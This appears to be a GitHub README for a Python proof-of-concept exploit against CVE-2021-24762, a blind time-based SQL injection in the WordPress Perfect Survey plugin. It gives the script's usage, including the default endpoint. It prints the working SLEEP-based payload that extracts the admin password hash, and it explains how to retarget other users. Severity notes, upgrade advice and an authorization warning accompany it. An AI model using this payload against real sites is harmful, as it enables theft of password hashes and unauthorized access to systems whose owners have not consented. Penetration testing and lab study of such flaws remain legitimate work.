 # exploit_cve-2021-24762
This repo shows an exploit to CVE-2021-24762. This is an Blind SQLi exploit that, on default config, greps the admin password.
> While doing a lab, based on Wordpress with PerfectSurvey plugin, I stucked on a sql vulnerability. The only available PoC I found were based on sqlmap and wasn't working properly in the lab I was working on (There were a lot of additional questions, e.g. application returning 404, timeouts varying too much, and other issues. So I created this to exploit the lab.

## Goals
- This PoC exploits CVE-2021-24762, which is related to Wordpress plugin Perfect Survey. 
The exploit is based in SQL Injection with SLEEP, and it obtains the password hash from the 'admin' user. This user is default on Wordpress environments
- Where it works: Perfect Survey plugin running versions < 1.5.2.

## Impact and Severity
- CVE-2021-24762: [CVSS 9.8 (Crítica)]
- Impacts: confidenciality, integrity, availability, unauthorized access.

## Environment 
- Software requirements: Python3.

## How to use
```
 ____     _      ___   ____
 / ___|   / \    |_ _| / ___|
| |      / _ \    | |  \___ \
| |___  / ___ \   | |   __ ) |
 \____|/_/   \_\ |___| |____/

   CAIS - Inteligência em Cibersegurança
   Exploit for: CVE-2021-24762

usage: exploit_cve-2021-24762.py [-h] [-u URL] [-p PATH] [-d DELAY] [-t TIMEOUT] [-c CHARSET] [-m MAX_LEN] [-v]

Safe CLI wrapper — receives url/path/delay/timeout/charset and forwards it

options:
  -h, --help            show this help message and exit
  -u, --url URL         Base URL (default: http://192.168.10.10)
  -p, --path PATH       path (default: /wp-admin/admin-ajax.php)
  -d, --delay DELAY     delay in seconds (default: 30)
  -t, --timeout TIMEOUT
                        timeout in seconds (default: delay + 15)
  -c, --charset CHARSET
                        charset to be used (default: alnum + ./$_-@)
  -m, --max-len MAX_LEN
                        maximum length (default: 20)
  -v, --verbose         activates log debugging
```



1. Python script python receives the above parameters. In case they are not passed, script executes with its default values. 
2. Ideally, you'll need to pass at least the URL. Do it with -u or --url. Other parameters problably will work with defaults.
3. In default config, it will get the password hash from user admin. This config is applyed in payload variable, in the value of user_login:
`payload = f"1 AND (SELECT COUNT(*) FROM (SELECT 1 WHERE ORD(SUBSTRING((SELECT user_pass FROM wp_users WHERE user_login=0x61646d696e),{position},1))={ascii_code} AND SLEEP({delay})) AS a)"`

    In case you need to find the hash for other user, change "0x61646d696e" (admin) according to your needs.

## Risks and limitations
- Limitation: In the actual config, this PoC only obtains hash for passwords in wordpress with the default database structures. If you face some modified environment, then you need to change this payload:
    `payload = f"1 AND (SELECT COUNT(*) FROM (SELECT 1 WHERE ORD(SUBSTRING((SELECT user_pass FROM wp_users WHERE user_login=0x61646d696e),{position},1))={ascii_code} AND SLEEP({delay})) AS a)"`

## Mitigation and remediation (recommendations)
- Mitigation recommendations: Update plugin to version 1.5.2 and above.
- References: 
    - https://nvd.nist.gov/vuln/detail/CVE-2021-24762
    - https://www.getperfectsurvey.com/ 


## Warning and authorizations
**Restricted use** — This repo contains sensitive content destinated to ethical and responsible use only.
Remember that you must have writing permission from the owner of the system you are testing on. Any use out of this scope is not allowed and will be charged on you(Do you want to go to jail?).


## Repo structure
- `exploit_cve-2021-24762` — Exploit.
- `README.ME` — This file.

## Changelog
`2025-10-10 — c4cnm — Creation and initial modifications`


## Contact
- Author: Red Team CAIS:/Matheus Camargo (c4cnm), matheus.camargo@rnp.br.



## License
`GNU General Public License v3 (GPL)`



